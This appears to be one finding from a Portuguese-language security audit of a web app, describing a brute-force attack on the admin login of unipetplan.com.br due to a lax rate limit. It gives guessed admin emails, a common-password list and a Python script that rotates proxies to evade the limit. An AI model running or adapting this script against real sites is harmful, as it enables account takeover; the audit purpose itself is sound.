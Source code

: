 ### 🔨 ATAQUE 8: Brute Force em Login Admin

**Vetor de Ataque:** Rate limit muito permissivo  
**Arquivo:** `server/routes.ts` (linhas 305-311)  
**Severidade:** MÉDIA 🟡

#### Como o Hacker Exploraria:

**Problema:** 10 tentativas em 15 minutos é muito permissivo

**Passo a Passo:**

1. **Obter Lista de Emails:**
   ```bash
   # Vazamento de dados anterior, scraping, engenharia social
   admin@unipetplan.com.br
   suporte@unipetplan.com.br
   contato@unipetplan.com.br
   ```

2. **Top 10 Senhas Mais Usadas:**
   ```
   123456
   password
   12345678
   admin123
   unipet2024
   senha123
   Admin@123
   mudar123
   Password1
   admin2024
   ```

3. **Ataque Distribuído:**
   ```python
   import requests
   import time
   
   emails = [...]  # Lista de emails
   passwords = [...]  # Top 10 senhas
   
   # Usar múltiplos IPs (proxies, VPN, Tor)
   proxies = ['proxy1', 'proxy2', 'proxy3', ...]
   
   for email in emails:
       for password in passwords:
           # Rotacionar IP a cada tentativa
           proxy = proxies[attempt % len(proxies)]
           
           response = requests.post(
               'https://unipetplan.com.br/admin/api/login',
               json={'email': email, 'password': password},
               proxies={'https': proxy}
           )
           
           if response.status_code == 200:
               print(f"[+] SUCESSO! {email}:{password}")
               break
           
           time.sleep(90)  # Aguardar rate limit resetar
   ```
